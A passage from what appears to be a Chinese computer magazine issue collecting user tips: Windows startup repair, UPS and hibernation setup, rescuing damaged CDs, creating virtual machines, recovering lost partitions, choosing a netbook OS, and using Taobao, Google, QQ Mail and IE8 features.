相对于XP的系统文件修复，Vista和Win7省却了那些不少人不太熟悉的“DOS命令”，这是在人性化方面的一个进步。下面，就来说说在不重新安装操作系统情况下，在Vista和Win7下两种有效的解决办法。

**方法一：**重启后在开机的过程中，连续按“F8”进入“模式选项”，选择“最近一次的正确配置”并确认。如果这样不行，怎么办呢？利用安装光盘中的“修复计算机”功能也能起到修复作用。
**方法二：**插入Vista系统安装光盘，并在BIOS中将“光驱/光盘”设置为第一启动项，重启电脑运行安装光盘，选择“修复计算机”进入“系统恢复选项”(见图2)，默认会选择Vista系统，点击“下一步”后再点击“启动修复”，开始查找问题，稍等片刻点击“完成”重启，一般问题就会得以解决。



## 小提示：其他导致启动失败的原因

系统无法启动，首先有可能是硬件问题，比如内存、显卡等没有插好，或长期没有清洁等。排除硬件故障，系统方面一是文中的丢失启动文件，或者启动盘分区表损坏等。

## 突然断电？我不怕了

每当台式机用户向本本用户炫耀它的机器性能有多强时，本本用户都会用一个致命缺陷来反击对方：突然断电你怎么办？确实，这是台式机的一个死穴。今天就来治治这个死穴。首先，你需要一块儿大概200元左右的UPS设备。有了UPS，你该做些什么呢？好办，就是对“电源选项”进行设置，让计算机自动控制UPS服务的工作方式，以下就详细谈谈具体的实现过程。

## 小知识：说说UPS

UPS是Uninterruptible Power Supply的缩写，意为“不间断电源”，它是连接在计算机和电源之间以保证电流不受干扰的设备。UPS设备使用电池保持计算机在断电之后仍能正常运行一段时间。或许正是因此，许多人对UPS设备的使用仅限于在市电断电时，保存尚未保存的工作成果，然后关闭计算机。不过，有时由于停电发生后你没有在电脑旁边，所以UPS电量耗尽时，你没有来得及关闭计算机，那么，你尚未保存的工作成果将会丢失。

## 启用“休眠”

休眠是计算机在关闭前首先将内存中的信息存入硬盘的一种状态。使计算机进入休眠状态时，休眠模式将内存中的所有内容保存到硬盘，关闭监视器和硬盘，然后关闭计算机。重新启动计算机时，所有打开的应用程序和文档都会恢复到桌面上。这样，即使你尚未保存的工作成果也不会丢失。

“启用休眠”功能：依次单击“开始→控制面板→性能和维护→电源选项”，打开“电源选项属性”对话框。在“休眠”选项卡上，选中“启用休眠”复选框（见图1），单击“确定”按钮。



## 安装UPS

按照制造商的说明进行UPS设备的物理安装。在“控制面板”中，打开“电源选项属性→UPS”，单击“选择→选择制造商”，选择UPS制造商，在“选择型号”下选择型号，“端口”下选择连接UPS的串行端口，点击“完成”按钮（见图2）。



## 小提示：选什么牌子的UPS

市场上的UPS品牌众多，专业级的有APC；质量过硬，但是价格也高。适合家用的推荐山特，尤其是山特TG500，性价比较高一些。

经过以上设置，你在用的UPS设备就能够与操作系统进行通讯了。以后，你就可控制计算机上UPS服务的工作方式了。

## 赶快干活！

在“控制面板”中，打开“电源选项属性→UPS→配置”按钮。当“配置”按钮已由灰色变为黑色，即可用状态了。在“UPS配置”对话框中，更改下面的一项或多项设置（见图3）：

①启用所有通知 如果你想要Windows在计算机切换到UPS电源供电时显示警告信息，选择图3所示复选框。可以指定在显示最初电源故障警告消息之前等待的秒数，以及在显示后续电源故障消息之前必须经过的秒数。

②严重警报 如果想让计算机使用UPS电源运行一段指定的时间后，Windows再发出严重警报，请选中“发出严重警报前电池上剩下的分钟数”复选框，并在其后的方框中指定分钟数，比如选择5。



如果希望当UPS激活临界电源警报时，Windows运行程序或任务，选中“警报出现时，运行这个程序”复选框。然后单击“配置”按钮，指定运行的程序。命令文件必须驻留在systemroot\System32文件夹，而且包含下列某种扩展名：EXE、COM、BAT或CMD。不能指定导致显示对话框的命令文件，因为需要用户输入的对话框将阻碍系统正常关闭。命令文件必须在30秒内完成运行。如果运行时间超过30秒，将影响到Windows完成正常系统关闭功能。

在“下一步，指示计算机去做”列表中，单击在电源严重短缺警报发生时想让计算机进入的系统状态，在此请单击“休眠”。如果选中“最后，关上UPS”复选框，则计算机进入指定状态后，同时关闭UPS电源。

## 效果是啥样？

之后，当市电断电后，UPS设备就会在电源即将耗尽之时，自动将电脑置于休眠状态，从而保证尚未保存的工作成果不会丢失。最后提醒大家注意两点：一是配置好UPS选项后，一定要对UPS配置进行测试以确认计算机具备掉电保护功能。二是在“控制面板”中使用“电源选项”可以调整你计算机硬件配置所能支持的任何电源管理选项。由于这些选项在不同的计算机之间有很大的差异，这里所描述的选项会与你见到的不同。“电源选项”是自动检测计算机上的可用信息并只显示你可以控制的选项。

(山东/王杰)

## 拯救烂盘不找专家，你身边就有

在日常生活中的移动数据存储载体，最常用的非光盘莫属。相较其他存储介质，光盘具有价格便宜、存储量大等优点。但光盘的缺点也很明显，易磨损。如果塞一张盘进光驱，复制数据到硬盘，出现无法复制甚至报错死机的情况，而光盘上的数据又对你很重要的话，那你就得为数据找个“新家”了。

但如果光盘已经损坏到无法直接拷（读）盘的程度了，要做备份该怎么办呢？相信很多人都会第一时间去找专门的读烂盘工具如BadCopy，但实际上，在你身边，就有让烂盘起死回生的工具。

## ACDSee, 不光会看图

没错，就是ACDSee，尽管它也就被你用来看图和图像编辑处理而已。为什么它会被用到拷烂盘呢？是由于它的读盘方式较为特殊（不同于系统自带的MS-DOS读盘模式），故而能在读烂盘领域一展拳脚。

用ACDSee拷烂盘的方法很简单，首先将烂盘塞进光驱，然后打开ACDSee，在正常窗口模式下，通过展开左边的文件浏览树打开光驱所在的盘符。因为ACDSee默认是只查看图片格式的，非图片格式文件当然显示不出来了，在右边的窗口空白处右击选择“过滤器→其他文件”就能看到。在该窗口选中你要拷备的文件，右击选择“复制到”保存地址即可。你会看到，当读到损坏区域时，ACDSee的拷贝速度尽管会降下来，但却非常稳定，不像Windows那样时快时慢。

## WinRAR，不止是压缩

不用惊讶，其实它的功能绝非压缩和解压缩那样简单，对于查看隐藏文件、合并文件等特殊应用它也是得心应手，而拷烂盘不过是其不为人所广知的绝技之一。

和ACDSee一样，首先你可以在软件界面浏览到目标烂盘，选中你要拷备的文件，右击选中“添加到压缩文件”，将“压缩方式”设为“存储”，即不压缩直接打包，这样可节省时间，点击“确定”。拷完后直接解压缩生成的RAR文件包释放文件即可。

## 小提示：

上面两个方法也有缺陷：如果遇到实在读不出来的数据，软件会报错，此时只能点击“取消”放弃，前面读出来的数据也会付诸一炬。如果拷备的是电影等文件碰到这种情况就没什么希望了。推荐找台纠错能力强的光驱来“配合”下，这样可增大成功概率。

## 迅雷，断点续传 down 破盘

对于烂盘，最有可能发生的情况是有一小块数据读不出来。试想一下，如果能用上多线程下载工具的“断点续传”功能，绕过那一小块儿不能复制的数据，前后数据是不是就都能成功复制到硬盘了呢？

## 第一步：让光盘成为待下载的文件

要安装FTP服务器，首先要安装IIS。打开“控制面板→添加/删除程序→添加/删除Windows组件”，选中“Internet信息服务(IIS)”和“文件传输协议(FTP)服务”，点击“下一步”后，放入Windows XP安装光盘，完成IIS的安装。

然后，依次运行“开始→设置→控制面板→管理工具→Internet信息服务→FTP站点→新建→FTP站点”。顺着向导，可设置FTP服务器。单击“浏览”选择光盘的根目录，如G:\。选中“读取”和“写入”的权限设置。FTP服务器已经创建完成了。

选中新创建的FTP站点，单击工具栏中的“启动项目”，FTP站点开始运行。

## 第二步：开始下载光盘文件

打开迅雷，然后单击“工具→资源探测器”即可打开“资源探测器”窗口。在“地址”中输入FTP的域名或地址，前面要带上ftp://协议，由于我们是在本机上，所以输入ftp://127.0.0.1/。接着可以看到光盘上的文件，选中所有文件，右击选择“下载”即可。

## 小提示：

如果光盘实在太烂，可能出现丢失光驱情况。可试着在设备管理器中刷新即插即用设备，这样光驱就又回来了。

(文/暴雪Boy_神焰)

不按常理出牌，三招轻松制作虚拟机

虚拟机可以非常方便地让你在一个现有的系统中“尝鲜”其他系统，比如在XP中尝试Win7。不过大家平时新建虚拟系统，都是在虚拟软件（VMware等）中按部就班地安装，操作复杂。何不直接把已经安装好的系统移植到虚拟机中？这样不仅安装简单，而且安装后使用环境也熟悉。

克隆大法——将当前系统恢复到虚拟机中

很多兄弟都用过一键Ghost，为系统做备份。现在呢，需要建立虚拟机，只要使用Ghost把已经制作好的GHO镜像恢复到虚拟硬盘即可。以微软的Virtual PC操作为例。

第一步：启动VPC，按提示新建一个自己需要的操作系统，设置好虚拟机参数。Ghost恢复操作环境可以借助老毛桃PE。到http://www.newhua.com/soft/614.htm下载UltraISO，下载后使用UltraISO打开老毛桃PE，单击“操作→添加文件”，添加本机系统GHO镜像和快速分区(hd4.GHO，下载地址：http://work.newhua.com/cfan/200923/hd4.rar)镜像并保存。

第二步：启动新建的虚拟机后，单击“光驱→载入虚拟镜像”，载入修改过的PE镜像。此时会引导虚拟机进入PE，按提示启动Ghost32，选择“磁盘从镜像”，将hd4.GHO镜像恢复到虚拟磁盘，快速完成分区操作。恢复时可以自定义各个分区的容量。

第三步：完成分区的创建后，再选择“分区从镜像”，把老毛桃镜像中的本机GHO镜像，恢复到第一分区即可完成虚拟机系统的安装，这样重启后就可以使用虚拟机了。

自己转换——用 disk2vhd 自制虚拟镜像

第一部分的操作，需要当前系统的GHO镜像和PE作为恢复环境。没这些条件怎么办？可以借助disk2vhd，直接把当前系统分区转化为VHD磁盘文件，然后加载到虚拟机中。

第一步：到http://technet.microsoft.com/en-us/sysinternals/ee656415.aspx下载disk2vhd，启动程序后按提示勾选当前系统分区，然后勾选Create（创建），程序开始把当前系统分区转化为VHD文件（见图1）。

第二步：启动Virtual PC新建虚拟机，在制作向导的“虚拟硬盘选项”选择“已存在的虚拟磁盘”，然后选择创建的VHD镜像，这样就在虚拟机中启动上述转化的系统了。

小提示：

由于Win7已经支持VHD加载，因此也可以直接在Win7生成当前系统分区的VHD，然后通过实机Win7加载VHD再运行一个虚拟Win7，用于病毒测试、软件安装测试等。



就地取材，直接启动本机系统分区到虚拟机中

在平时的操作中，经常要借助虚拟机来截取一些特殊素材，如XP启动菜单等图片。如果安装虚拟机只是为了这些简单的应用，可以借助Qemu直接在虚拟机中启动本机已安装的系统。

第一步：到http://www.davereyn.co.uk/qemu/setupqemuk60.exe下载QEMU Manager，运行后单击程序界面的“+”，按提示新建一个名为XP的虚拟机，参数采取默认。

第二步：成功创建虚拟机后，返回程序界面选中虚拟机，切换到右侧窗格的Drive（驱动器）选项，双击其中的hard disk 0，再单击Use physical disk（使用物理磁盘），然后选择当前磁盘作为虚拟磁盘。

第三步：完成上述的设置后，选中新建的虚拟机单击启动按钮，就可以看到Qmenu开始启动本机系统了，系统启动之前的图片是不是可以轻松截获了（见图2）？



为了方便大家使用上述方法快速创建虚拟系统，对上述三种方法做个比较吧（见表）：

| 方法 | 安装速度 | 操作难度 | 安全指数 |
| :--- | :--- | :--- | :--- |
| 1 | 较快，一般10分钟 | 中 | 高 |
| 2 | 较慢，一般30分钟 | 低 | 高 |
| 3 | 最快，1分钟 | 低 | 低，如果使用物理磁盘，很危险 |

(福建/俞木发)

停电带来的小灾难……

MM的电脑型号是联想天逸A6000V，SATA 160GB硬盘，自带Vista系统，但她更习惯XP下的操作，于是让我给安装双系统。但安装XP时，居然停电了（R：这种极小概率的事件都能碰到，阁下着实佩服！），重启后无法进入系统。

山重水复疑无路

联想工程师来了后，仔细检查是硬盘损坏，无法修复，只能更换硬盘。可MM说硬盘里有近一年的重要资料，以及我和她许多照片。几个小时内，我尝试了各种方法，但终归失败。致电联想客服，答复是“只修硬盘，不保数据”；联系飞客数据恢复中心，答复是“数据不能保证百分之百地恢复，费用几千元”。

柳暗花明又一村

静下心来仔细回想，忽然想起：启动电脑后，联想的工程师利用光驱线热接入硬盘，光驱参数是在BIOS中设置的，操作系统极有可能不再去更新硬件信息，因而识别不出硬盘。抱着一线希望，我在另一台电脑的BIOS中先将光驱禁止，重启后，采用热插拔的方法将坏硬盘接入到光驱线上。然后打开“设备管理器”，扫描检测硬件改动，电脑终于发现了坏硬盘！并且其中的所有数据都可以正常读取！要做的第一件事当然是备份数据。

后记

事后，虽然知道了妹妹的资料和我完全无关（典型的自作多情！），但仍有收获：硬件出现故障无法识别时，可以先在BIOS中将相关设备禁止，重启后再利用热插拔的方法接入故障硬件，然后让操作系统做一下硬件扫描。

小编大结

硬盘作为电脑的资料存储仓库，也是一块儿非常脆弱的地方，不仅在物理上要轻拿轻放，在系统中进行操作也要加倍呵护。一般出现故障最多的是分区表损坏，导致无法进入系统，此时可以利用故事一提供的方法，在PE系统下使用分区表医生进行修复。而故事二中的方法适合于某些特定情况，比如故障硬盘不能被正确识别等。

(讲故事的人：山东/刘振华)

当硬盘被还原成一个分区

叮零零电话响起，同事小刘打来的，肯定是电脑又出毛病了。“我用深度Ghost还原了笔记本，启动后整个硬盘只有一个C盘了，咋办？好几年的绘画素材都在里面啊！”我连忙告诉他停止对电脑的任何操作，速速来我这“就医”（R：没错，你的建议相当正确）。挂了电话心想：嗯，真是有“深度”的还原，直接到出厂状态了。

失败的 Diskgen

不一会儿，连人带电脑一起来了。开机检查，果然只有C盘。小事一桩！拿出自己DIY集成各种工具的光盘，重启电脑进入DOS，找到Diskgen(磁盘工具，可修复损坏的分区表)，选择“工具”里的“重建分区表→自动方式”，可发现整个硬盘仍然只是一个分区……

分区表医生很强悍

于是决定采用其他的办法，又想到了更厉害的分区表医生PTDD(PTDD Partition Table Doctor)。找来闪盘，开机按F12选择USB-HDD，进入Win PE，从程序里找到并打开PTDD，选择Operations(操作)→Rebuild Partition Table F3(重建分区表)→Interactive(互动)，很快便找到一个分区！继续，一直到整个硬盘全部完成，总共找到5个分区。最后保存，提示重启，发现原来的Windows XP无法启动了！怎么回事？

可以确定，磁盘分区的改变导致了无法重启。再次进入Win PE，打开PTDD，将未划分的前面两个空间合成一个分区，大约是20GB左右，将其格式化并设置成活动分区，然后保存。这次用光盘启动，运行GHOST，选Local(本地)→Partition(分区)→From Image(映像)，选择硬盘的第一个分区，选择YES，两分钟后重启，熟悉的XP出现了！至此，整个过程完美结束。为朋友找回了多年的“积蓄”，我也从中学到了一个实用的技巧，高兴！

(讲故事的人：内蒙古/古建明)

天要下雨，娘要嫁人……
小有所依，为上网本选个“好媳妇”

在PC领域，除了Windows系统，你的选择并不多。但如今的上网本，可谓是“乱花渐欲迷人眼”，争先恐后外加争芳斗艳：各大厂商推出形态各异的上网本，知名的软硬件厂商也推出各自配套的上网本系统——硬件方面的选择可以多一些，操作系统上乱七八糟的。一方面让用户无从选择，另一方面就是软件的兼容性、通用性等问题。谷歌的Chrome OS还未见真身，英特尔主推的Moblin已经推出2.1版。Windows XP尚未退市，高调上市的Windows 7也宣布支持上网本。我们的上网本该迎娶哪位媳妇？哪个系统更适合我们的上网本？今天就一起来探个究竟。

史上最全：主流上网本系统多角度、全方位大PK！

> 火速链接：今年第08期的《MM专用你别乱装！打造上网本专用系统》，介绍了如何将XP系统“改装定制”为上网本专用系统的详细经历，感兴趣的话不容错过。

> 小知识：干吗选择定制系统，为什么呢？上网本由于售价较低、屏幕较小、硬件配置相对较低，如果把台机系统移植到上网本，可能会出现因为屏幕分辨率不够导致的程序按钮错位（或无法显示），以及运行不流畅等故障。因此需要为上网本选择一个合适的操作系统。

现在市面上的上网本系统主要有两大类：一类是微软Windows（包括Windows XP和Windows 7），主要优点是使用简单，支持软件众多，比较符合大家的一贯的使用需求。缺点是占用的硬盘空间较大，运行不稳定，容易遭受病毒感染，预装Windows系统的上网本价格较贵。另一类是基于Linux内核，经过改造的上网本系统。主要有谷歌的Chrome OS（未提供下载），英特尔的Moblin，基于Ubuntu定制的Ubuntu Remix和Eeebuntu NBR。这类系统的特点是：体积小巧，运行快速、硬件配置较低、上网安全性高。缺点是扩展应用软件少，系统维护比较复杂。好人做到底，提供下载地址（缩减网址版）：

> 小提示：★几个Linux系统都提供Livecd功能，也可以无需安装，比如要在上网本尝鲜Ubuntu Remix，刻录为光盘启动后只要在启动界面选择“试用Ubuntu Remix而不改变计算机中的任何内容”即可，这样可以在上网本试用系统后再决定是否安装它们（见图1）。



> 网络大补贴：由于Chrome OS未提供下载，因此本文无法对其进行评测。不过据说GOS这个系统和其非常类似，大家可以参考GOS的评测文章http://www.jxuz.net/thread-14840-1-1.html。

高考摸底十八摸之CFan上网本系统选择小测试！

其实，各款上网本操作系统都有各自的特点，没有绝对的强者或是弱者，那么到底该选择哪一款呢？别那么教条，做两道选择题，就知道选择哪一款了！

1. 从以下三种类型的用户，选择一个最适合你的定位的答案：
   A. “网游”小SG：还是乖乖地用XP吧！男生手中的上网本除了上网，基本上还会用它来玩一些斗地主等小网络游戏（大型网络游戏，根本就不适合使用上网本）。XP作为一款成熟的操作系统，对游戏有着……
   B. 网聊MM：推荐安装Moblin，它不仅有漂亮的UI界面，而且集成常用的网络组件，专门针对英特尔Atom平台优化，增加了优化的电源管理，使电池续航能力延长，支持最新的3G技术。即使是菜鸟MM也可以轻易上手，系统操作界面请看图（见图2）。
   C. 无欲无求型：推荐安装Ubuntu Remix。它在标准版Ubuntu的基础上，针对英特尔Atom平台进行了优化，拥有更理想的电池续航能力。针对屏幕尺寸，定制了一套直观界面方便切换。而且由于其出自Ubuntu，很多该平台下的软件，能够直接移植到此运行，看看运行界面吧（见图3）。

2. 上网本有多种不同的平台，你是哪个平台的粉丝？对平台不熟悉建议直接选择A。
   A. Intel Atom平台：推荐Moblin，作为英特尔自己推出的系统，平台兼容性、驱动完整性和应用软件丰富性是最好的。典型的机型有宏碁Aspire One，联想S1，戴尔Mini 9，东芝NB100等。其中的易PC则推荐使用Eeebuntu NBR。
   B. 威盛Nano处理器平台：推荐Ubuntu Remix，作为最为通用Linux系统，它几乎可以在所有上网本中安装，而且支持硬件丰富，应用软件也多。典型的机型有威盛VIA VT6552 NetNote，台德UB-1000上网本，联想Ideapad S12-VTW。
   C. AMD平台：推荐采用推荐Ubuntu Remix，原因同上。典型机型有宏碁11寸Ferrari One，Gateway LT3108c。
   D. ARM平台：推荐使用Google Android。具体机型没有上市。

(文/平淡)

| 系统类别 | 硬件需求 | 安装过程所需时间 | 开机速度 | 空间占用（包括常用软件） | 功能扩展 | 特色点评 |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| Windows XP | 几乎所有上网本都可以安装 | 略 / 大约40分钟 | 50秒 | 安装后大约占用4GB左右空间，进入桌面资源占用一般达到30% | 极为丰富 | 使用简单，应用软件丰富；并不适合配置较低上网本 |
| Windows 7 | 限制最高配置是：硬盘容量不要超过250GB（SSD硬盘则要小于64GB），CPU主频大于2GHz，处理器的功耗不大于15W | 略 / 大约35分钟 | 80秒 | 安装后大约占用10GB左右空间，桌面资源占用达到50% | 丰富 | 安全性较高，但只能安装入门版和家庭基础版，运行流畅度视配置而定 |
| Moblin | Atom或Core(tm) 2 CPU，使用Intel集成显卡 | 和Ubuntu桌面版类似 / 10分钟 | 8秒 | 安装后大约占用2.5GB左右空间，集成常见应用软件 | 丰富，使用启动首页（Myzone），能够显示Twitter更新、听过歌曲、访问过网页等。集成了音乐视频播放、聊天组件、浏览器（基于火狐）等网络组件，基本可满足上网需求 | 界面华丽，网络功能丰富，主流Linux软件可以直接安装在Moblin上。经由英特尔优化，大大提高上网本续航能力 |
| Ubuntu Remix | ATOM处理器，至少512MB内存、4GB硬盘 | 15分钟 | 10秒 | 安装后大约占用2GB左右空间，已经集成常见的应用软件 | 丰富，已经集成常见的网络、办公软件，并可以开启在线更新，下载到各种免费、开源的软件 | 操作简单，使用也很方便。支持鼠标、图形化操作，定制功能齐全，配套软件丰富，可以满足大家上网需求。Ubuntu Remix基于普通上网本定制，安装好后驱动齐全，Eeebuntu NBR则基于EeePC定制 |
| Eeebuntu NBR | 专为EeePC定制，定制的内核支持其所有的硬件，如WiFi、图形、触摸屏、Webcam和声卡等。 | 16分钟 | 10秒 | | | |

商品好坏且听他人评说

网上商品和卖家很多，网购的时候是不是觉得无从下手？淘宝的包“打听”可以让你轻松进行网购。

包打听——专业卖家轻松打听

打听商品。想在淘宝上为MM买套防晒用品，可是自己对防晒商品一点也不熟悉。于是登录淘宝“打听”，进入消费者美容社区http://www.taobao.com/go/act/dating/expert.php，直接输入“哪种防晒用品效果好”，点击“查询答案”找到答案。点击下方的专家链接，还可请专家为我们打听。

找到卖家。买好化妆品，MM又想在淘宝上寻找诺基亚N95手机卖家，登录http://dating.taobao.com/，然后输入“N95”进行打听，很快就可以在搜索结果右侧“掌柜热卖”中找到淘宝卖家，点击链接即可到达其店铺。

查看打听。自己对某种商品进行了打听，当然希望尽早知道结果。在打听页面点击“我的打听”，用自己的淘宝账号登录后，在“消息设置”中全选右侧提醒选项，这样自己的打听或回复就可以通过旺旺第一时间接收，或者登录“我的打听”主动查看网友的回复。

> 小提示：
对于购买衣服等外观性要求比较高的商品，还可以登录淘宝的看图购物网http://go.taobao.com/，看好图后再进行购买。

价格评测——打造自己的产品搜索系统

同一种商品在网上有很多商家在卖，不同商家有不同的报价。简单通过搜索引擎搜索，搜索结果太多反而会让我们无所适从。其实我们信任的商家就那么几个，因此搜索也只要局限在这几个指定的商家即可。比如，数码产品我一般只在京东、绿森或者当当网购买，则可以借助Google的自定义搜索，打造一个只在上述三个网站搜索的专用评测、价格自定义搜索引擎。

首先以自己的Google账户登录http://www.google.com/coop/cse/，搜索引擎名称输入“手机报价专用搜索”，在“选择一些网站”下输入上述三个网站的网址，按提示创建自定义搜索引擎。以后购买商品，只要在自己的Google账户下点击“自定义搜索→我的搜索引擎”，输入商品名称（如“N95评测”），Google就只会在上述网站查找相关的评测（搜索结果少但精确），大大方便我们的查找和购买。

> 小提示：
一些专业网站如泡泡网（http://www.pcpop.com/）搜索产品时，会找出该产品同档次的其他商品，就价格和性能作比较，据此可找到类似报价的替代商品，或者类似功能的替代品。

(文/淡然)

要想忘不了，就用网络记事本

平时在网吧或者在单位的时候，有时经常要在电脑上随手记点东西，可是如果只是记在本机，在其他地方我们就看不到所记的事情了。那么何不试试网络记事本，把要记的东西放在这些地方，既方便使用，还能随处访问。

实战1：工作计划——QQ 网络记事本

类似工作计划内容，我们可以使用QQ记事本保存。点击QQ面板上的网络硬盘进入，展开“个人助理→网络记事本”，然后点击下方的“记事本”按钮。系统会默认打开一个以当前日期为名的记事本窗口，按提示输入需要记住的文本并保存即可。以后不管在什么地方，只要登录QQ即可读取记事本的内容。如果要保存的内容比较多，为了防止掉线或者断电等突发事件造成的损失，点击“设置”，在“高级”标签中选中“定时保存”，再设置一下自动保存的时间即可。

> 小提示：
★QQ群聊记录默认保存在网上，如果要记住的内容不是很多，我们还可以打开任意一个群，通过发送消息的方法把要记的内容发到群里。以后打开群，点击“群空间”，进入“群聊精华”页面就可以查看自己发送的消息了，并且支持图片保存。唯一不足的是，保密性不好。
★如果只是简单记录，还可以使用QQ通讯簿。比如，要记住客户联系地址，在QQ通讯簿随意添加一个好友并加上详细联系地址，这样不管在何处登录QQ通讯簿都可以看到。

实战2：自考提醒——网络记事本记录

为了不让自己忘记自考日期，我们可以使用http://www.noteu.cn/提供的网络记事本功能。登录上述网站并将其设置为主页，注册后我们就拥有一个网络记事本了。登录自己的记事本后点击“添加便签”，在打开的便签页面输入自考提醒内容并点击“保存”。以后只要启动浏览器，在打开的主页进入自己保存的便签即可看到自考提醒了。对于没有电脑的用户，还可以使用手机登录 http://wap.xnote.cn读取保存的便签。

实战3：好友生日——邮件自动提醒

如果担心忘记好友生日，可以利用邮件定时提醒服务。申请一个163邮箱，登录163邮箱后，点击“写信”，收件人设置为自己的邮箱地址，然后把需要记住的内容作为邮件正文，并勾选下方的“定时发信”，选择朋友生日前一天发送。这样系统会在指定时间发送信件到我们的邮箱，到时只要打开邮箱就不会忘记朋友的生日了。对于使用飞信用户，登录飞信后点击“菜单→操作→给自己发送短信”，点击“定时短信”设置即可。

(文/俞木发)

时光机 穿越历史时空

最近导师让小姚写一篇关于证券方面的文章，当她通过Google搜索资料时，发现都是时下的新闻，很难找到特定历史段的数据，参考意义不大。这让小姚有点郁闷。

时间隧道，关键词的历史大事记

小姚所写文章涉及到著名的“5.19行情”。5.19行情作为中国证券市场一段特殊的历史，到底是什么因素促成？当时的环境如何？这些都需要引用1999年当时媒体上的一些评论分析。不过直接用Google搜索，一大堆的文章都是现在的证券行情，根本不是想要的结果。小姚决定请谷歌百宝箱帮忙。

第一步：当在Google中搜索“5.19行情”后，搜索结果页面左上角会看到“搜索百宝箱”链接，点击后进入百宝箱页面。

第二步：百宝箱左侧提供了多种搜索方式，这里点击“时光隧道”，页面上方将显示一个时间轴。时间轴上有一些“蓝柱子”，它的高度显示出当年搜索结果的多少。点击时间轴上的“1998年”，展开后即可看到“1999年”时间点了。点击它，这时出现的大部分内容就是直接关于1999年“5.19行情”的了。为了提高效率，在每个搜索结果的后面有一个“+显示详细内容”，点击之后，就可以查看相对详细的信息，以决定是否有必要打开这个搜索结果。

第三步：了解完历史，想知道最近媒体上怎么评价5.19行情，可在百宝箱页面左侧点击“最新结果”，“一天之内”等就可以查阅了。

神奇罗盘，搜索引擎也联想

小姚最近想要换手机，她总听周边的朋友在讨论3G，于是决定要换一个支持3G的手机。可是，什么是3G？如何判断手机是否支持3G？这些她都一无所知，于是她决定对3G做一个全面了解。

第一步：在谷歌搜索百宝箱中搜索“3G手机”后，点击左侧“神奇罗盘”，页面中间会出现一个有许多信息分支的罗盘，罗盘中心是搜索关键词，围绕核心的分支则指示与搜索关键词相关的其他关键词。

第二步：点击相应的分支，又会以此分支为罗盘中心，继续纵深搜索。这样通过不断点击，搜索引擎不断根据语意联想，就会得到许多意想不到的有价值的信息了。

图文并茂，搜索不再单调

看到谷歌百宝箱非常实用，小姚有点爱不释手，以前只能查看简单的文字结果，现在不仅可以按时间搜索，还可以在搜索结果中直接查看文章里的图片。小姚曾经在《电脑爱好者》上发表过文章，就直接搜索一下吧。

第一步：在谷歌百宝箱里搜索自己的名字，然后点击“图文并茂”。

第二步：在搜索结果的第二页中果然出现了CFan杂志的封面，这当然是需要的结果了，一击即中，再也不用打开无用网页了。如果搜索的是明星人物的话，点击左侧“视频”，还可以查看与此明星相关的各种视频了，并且可以在“长短不限”下面，再根据时间长短重新搜索，以便获得更精确的结果。

> 小提示：
对于炒股的朋友，可以直接输入股票名字，用时间隧道就知道它什么时候是热门，何时是冷门。

(文/侯忠 常雪斌)

撤回发出的邮件——QQ邮箱覆水能收

某天在网上与MM大吵了一架，一怒之下，通过QQ邮箱给她发了一封措辞极其严厉的邮件。可等怒火稍息之后，我又有些后悔了，怎么办？发出的邮件还能收回吗？想起CFan上曾经介绍过Gmail邮件撤回的功能，于是我怀着侥幸心理翻看QQ邮箱的设置，还真有了惊人的发现。

原来，最近QQ邮箱推出了“邮件撤回”功能，只要收件人也是QQ邮箱，并且她（他）还没有阅读邮件，那么在15天之内（这么长的时间足够我们吃后悔药的了），就能撤回邮件。

当你通过QQ邮箱发出邮件之后，点击邮箱左侧的“已发送”，在右侧的邮件列表中点击欲撤回的邮件主题名称进入邮件正文，然后单击上方“撤回邮件”按钮，弹出“撤回邮件”对话框，点击“确定”即可。

完成操作后，如果对方还没有阅读你的邮件，此邮件就会被神不知鬼不觉地删除掉。就这样，我幸运地躲过一件不该发生的故事。

> 小编有话说：小编在测试这一方法的时候，发现不管发多少邮件，QQ邮箱“已发送”中就是空空如也，也就无法完成撤回操作了。经检查后才发现，原来需要手动进入“设置”中，勾选“邮件自动保存到‘已发送’”项才行。

(重庆/陈佳)## 微软急了，IE8亮绝招

眼看着浏览器软件群雄争霸，微软真的有点急了，在IE8上着实下了功夫，推出了不少独特又实用的功能，这些你试过了吗？

### 加速度，网页操作再快点

IE8中新增了加速器的功能，通过它就能够快速应用其他的在线服务了，如查看地图、翻译、发送电子邮件等。

比如在IE8中浏览景区信息，看到有“北海公园”字样，可以用鼠标选中这几个字，这时会显示一个箭头图标，点击它，从弹出菜单中选择“使用Live Search绘制地图”，再点击“转至Live Search地图”，即可在微软地图上找到北海公园的具体位置了。

从其他选项可以看出，我们还可以进行快速搜索、繁简转换、发送邮件、写入博客等。点击“所有加速器→查找更多加速器”，还可以添加更多加速器，如淘宝搜索、有道即时翻译、股票查询、即时听音乐等，非常方便。

> 小提示：
> ★ Web Slices是IE8中的新功能，所以目前支持它的网站还不多，据传Windows Live、亚马逊等网站将很快支持，此功能将很快普及。如何判断某网站是否支持Web Slices？在IE8中打开该网站时，如果工具栏RSS订阅图标变成绿色，即表示此网页中有Web Slices源。
> ★ 有许多网站、博客都是通过WordPress创建的，很容易让它们支持Web Slices，具体方法请参阅：http://blog.cfan.com.cn/index.php/11702/viewspace-624797。

### 精确定位，只监控想要的那部分

IE8的网页切片（Web Slices），有点类似RSS订阅，不过它允许你只订阅网页中某一部分的内容。当这部分内容有更新时，会即时通知你，而无需你紧盯着网页一遍遍手动刷新。

比如登录eBay（http://www.ebay.com）购物网站，进入商品分类页面，将光标指向某一商品时，会发现它多出一个绿框，点击绿框左上角的按钮，将弹出添加网页快讯提示窗口，点击“添加到收藏夹栏”后将在收藏夹栏添加一个链接。以后，当此部分的商品内容发生变化时，这一链接会以闪烁的形式提醒你有更新了，非常便捷及时。

### 安全浏览，谨防恶意钓鱼

新版IE8，在安全方面下了很大功夫，像之前杂志上介绍过的它新增的隐私浏览模式等，其实在你看不到的地方，IE8的安全防范也有增强，这就是它的——SmartScreen（智能屏幕筛选器）。当发现你浏览的网页可疑时它会即时弹出提示消息，如果该网站已经列于风险网站黑名单则它会亮出红色警告并阻止访问，看到这些警告提示时，你就要小心了。

除了自动检测外，我们还可以利用它手动检测某网站是否安全：启动IE8，打开需要检测的网站，然后点击工具栏上的“安全”按钮，选择“SmartScreen筛选器→检查此网站”，很快就会弹出鉴定结果。如果未检测到安全威胁，但是你还是觉得不放心的话，则可以点击“安全→SmartScreen筛选器→报告不安全网站”，将此网站提交给微软来帮你分析。

（文/流言）

## iGoogle来袭，挡也挡不住的爱情轰炸机

